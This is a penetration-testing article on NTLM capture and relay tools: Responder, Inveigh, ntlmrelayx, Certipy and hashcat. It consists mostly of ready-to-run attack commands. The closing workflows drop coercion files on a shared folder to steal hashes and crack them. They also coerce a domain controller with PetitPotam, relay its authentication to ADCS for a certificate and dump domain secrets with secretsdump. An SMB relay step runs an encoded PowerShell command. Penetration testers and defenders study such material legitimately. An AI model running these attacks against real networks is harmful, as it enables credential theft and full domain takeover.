

# NTLM Capture & Relay Tools

## Overview

Coercion techniques (file-based or protocol-based) are only half the equation. To exploit them, you need infrastructure to **capture** the incoming authentication and either **crack** or **relay** it. This article covers the essential tooling.



---

## Responder

The de-facto standard for capturing hashes on a local network. Responder poisons LLMNR, NBT-NS, and mDNS responses to trick clients into authenticating to it, and runs rogue SMB/HTTP servers to capture the hashes.

### Basic Capture Mode

```bash
# Listen on eth0, verbose, capture all incoming auth
responder -I eth0 -v
```

### Analyze Mode (Passive — No Poisoning)

```bash
# Passively observe the network without responding (recon, stealthy)
responder -I eth0 -A
```

### Disabling Servers for Relay

When relaying, you must disable Responder's SMB and HTTP servers so `ntlmrelayx` can bind to them. Edit `/etc/responder/Responder.conf`:

```ini
[Responder Core]
SMB = Off
HTTP = Off
```

### Captured Hash Location

```
/usr/share/responder/logs/
# Files like: SMB-NTLMv2-SSP-192.168.1.50.txt
```

### Poisoning Scope

| Protocol | Port | What It Poisons |
|---|---|---|
| LLMNR | UDP 5355 | Failed DNS lookups |
| NBT-NS | UDP 137 | NetBIOS name resolution |
| mDNS | UDP 5353 | Local `.local` resolution |

---

## Inveigh

The Windows/PowerShell/.NET equivalent of Responder. Useful when you have a foothold on a Windows box and want to capture hashes from inside the network without deploying Linux tooling.

### PowerShell Version

```powershell
Import-Module .\Inveigh.ps1
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTP Y -SMB Y
```

### C# Version (InveighZero)

```cmd
Inveigh.exe
```

Inveigh writes captured hashes to the console and to log files, ready for hashcat.

---

## ntlmrelayx (Impacket)

The relay workhorse. Instead of just capturing the hash for offline cracking, `ntlmrelayx` forwards the authentication to a target service in real-time, authenticating as the victim.

### Relay to ADCS (ESC8 — Most Impactful)

```bash
ntlmrelayx.py -t http://ca01.corp.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

### Relay to LDAPS (RBCD / ACL Attack)

```bash
# Grant delegation access
ntlmrelayx.py -t ldaps://dc01.corp.local -smb2support --delegate-access

# Escalate a specific user via ACL abuse
ntlmrelayx.py -t ldaps://dc01.corp.local -smb2support --escalate-user attacker
```

### Relay to SMB (Command Execution)

```bash
# Only works if SMB signing is NOT enforced on target
ntlmrelayx.py -t smb://192.168.1.50 -smb2support -c "powershell -enc <base64>"
```

### Relay with SOCKS Proxy (Session Reuse)

```bash
# Keep relayed sessions alive in a SOCKS proxy for multiple uses
ntlmrelayx.py -tf targets.txt -smb2support -socks
```

Then use the sessions:

```bash
# In the ntlmrelayx console:
ntlmrelayx> socks
# Lists active authenticated sessions you can proxy through
```

### Multi-Relay (Target File)

```bash
# Relay to multiple targets from a list
ntlmrelayx.py -tf targets.txt -smb2support
```

---

## Certipy (ADCS Automation)

Certipy automates the entire ADCS attack surface, including relay-based certificate theft.

### Relay Mode

```bash
# Certipy can act as the relay endpoint for ADCS attacks
certipy relay -target ca01.corp.local -template DomainController
```

### Request Cert (after coercion)

```bash
certipy req -u attacker@corp.local -p password -ca corp-CA01-CA -template User
```

### Certificate to Hash (UnPAC-the-Hash)

```bash
# Use a certificate to recover the NT hash
certipy auth -pfx dc01.pfx -dc-ip 192.168.1.10
```

---

## smbserver.py (Simple Capture)

For quick capture without the full Responder stack:

```bash
# Run a capturing SMB server
impacket-smbserver share /tmp/share -smb2support

# Hashes appear in the console as clients authenticate
```

---

## Cracking with hashcat

### Net-NTLMv2 (Mode 5600)

```bash
# Basic dictionary attack
hashcat -m 5600 hashes.txt rockyou.txt

# With rules (recommended)
hashcat -m 5600 hashes.txt rockyou.txt -r rules/best64.rule

# Mask attack (for known password patterns)
hashcat -m 5600 hashes.txt -a 3 ?u?l?l?l?l?l?d?d?d

# Combinator + rules for strong wordlists
hashcat -m 5600 hashes.txt wordlist.txt -r rules/OneRuleToRuleThemAll.rule
```

### Hash Format

Net-NTLMv2 hashes look like:

```
username::DOMAIN:1122334455667788:hash:blob
```

### Cracking Considerations

- **Net-NTLMv2 CANNOT be used for Pass-the-Hash** — it's a challenge/response, not the NT hash itself. You must crack it to cleartext OR relay it.
- If cracking fails, **relay** is your path forward (no password needed).
- Machine account hashes (e.g., `DC01$`) are effectively **uncrackable** (128-char random passwords) — always **relay** these, never try to crack.

---

## Decision Matrix: Crack vs. Relay

```mermaid
flowchart TD
    A["Captured Net-NTLMv2 Hash"] --> B{"Machine account?<br/>(ends in $)"}
    B -->|Yes| C["RELAY ONLY<br/>(uncrackable)"]
    B -->|No| D{"SMB signing<br/>enforced on targets?"}
    D -->|No| E["Relay to SMB<br/>or crack"]
    D -->|Yes| F{"ADCS Web Enrollment<br/>available?"}
    F -->|Yes| G["Relay to ADCS<br/>(ESC8)"]
    F -->|No| H{"LDAP signing<br/>enforced?"}
    H -->|No| I["Relay to LDAP<br/>(RBCD/ACL)"]
    H -->|Yes| J["Crack with hashcat<br/>(last resort)"]

    style C fill:#4a1942,stroke:#bb86fc
    style G fill:#4a0000,stroke:#ff4444
```



---

## Full Attack Workflow Example

**Scenario:** Internal pentest, you can drop files on a shared folder.

```bash
# 1. Start Responder to capture
responder -I eth0 -v

# 2. Generate coercion files
python3 ntlm_theft.py -g modern -s 192.168.1.100 -f Q4_Budget

# 3. Drop the .url and .lnk files on the accessible share
cp Q4_Budget/*.url Q4_Budget/*.lnk /mnt/target_share/

# 4. Wait for a user to browse the folder → hash captured in Responder

# 5. Crack the captured hash
hashcat -m 5600 /usr/share/responder/logs/SMB-NTLMv2-*.txt rockyou.txt -r rules/best64.rule

# 6. Use cracked creds for authenticated access
crackmapexec smb 192.168.1.0/24 -u cracked_user -p cracked_pass
```

**Scenario:** You want Domain Admin via coercion + relay.

```bash
# 1. Disable Responder's SMB/HTTP (edit Responder.conf)

# 2. Start the relay targeting ADCS
ntlmrelayx.py -t http://ca01.corp.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

# 3. Coerce the DC (in another terminal)
python3 PetitPotam.py -u '' -p '' 192.168.1.100 192.168.1.10

# 4. ntlmrelayx captures the DC's certificate → use it to DCSync
python3 gettgtpkinit.py -cert-pfx dc01.pfx corp.local/DC01\$ dc01.ccache
export KRB5CCNAME=dc01.ccache
secretsdump.py -k -no-pass corp.local/DC01\$@dc01.corp.local
```

---

## Tool Installation

```bash
# Impacket (ntlmrelayx, smbserver, secretsdump)
pipx install impacket

# Responder (usually pre-installed on Kali)
apt install responder

# Certipy
pipx install certipy-ad

# Coercer
pipx install coercer

# ntlm_theft
git clone https://github.com/Greenwolf/ntlm_theft
pip3 install xlsxwriter

# PKINITtools (gettgtpkinit)
git clone https://github.com/dirkjanm/PKINITtools
```

---

## References

- [Responder — lgandx](https://github.com/lgandx/Responder)
- [Impacket — Fortra](https://github.com/fortra/impacket)
- [Certipy — ly4k](https://github.com/ly4k/Certipy)
- [Inveigh — Kevin Robertson](https://github.com/Kevin-Robertson/Inveigh)
- [hashcat — Net-NTLMv2 mode 5600](https://hashcat.net/wiki/doku.php?id=example_hashes)
